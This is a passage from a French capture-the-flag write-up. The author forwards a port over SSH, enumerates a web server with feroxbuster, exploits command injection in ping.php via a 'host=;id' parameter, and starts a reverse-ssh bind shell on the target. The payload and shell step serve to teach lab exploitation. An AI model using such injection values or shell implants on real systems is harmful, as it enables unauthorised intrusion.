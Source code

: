 Je vais profiter du compte SSH de `bob` pour forwarder ce port en local :

```bash
ssh -p 2222 -N -L 8080:172.17.0.5:80 bob@192.168.56.67
```

Puis je lance une énumération qui ne met pas longtemps à ramener quelque chose :

```bash
$ feroxbuster -u http://127.0.0.1:8080/ -w fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-directories.txt -n

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://127.0.0.1:8080/
 🚀  Threads               │ 50
 📖  Wordlist              │ fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.0
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      312c http://127.0.0.1:8080/ping
403        9l       28w      276c http://127.0.0.1:8080/server-status
200        9l       24w      209c http://127.0.0.1:8080/
[####################] - 39s    62260/62260   0s      found:3       errors:0      
[####################] - 38s    62260/62260   1609/s  http://127.0.0.1:8080/
```

Dans le dossier `ping` sur lequel le listing est activé je trouve un script `ping.php` qui m'indique :

```html
Use the host parameter<pre>Array ( ) </pre>
```

Je m'exécute non sans deviner un échappement de commande  :

http://127.0.0.1:8080/ping/ping.php?host=;id

```html
Use the host parameter<pre>Array ( [0] => uid=33(www-data) gid=33(www-data) groups=33(www-data) ) </pre>
```

J'ai rappatrié `reverse-ssh` sur `WebServer` et je l'ai exécuté en mode bind (qui écoute par défaut sur le port `31337`) :

```bash
nohup ./reverse-sshx64
```
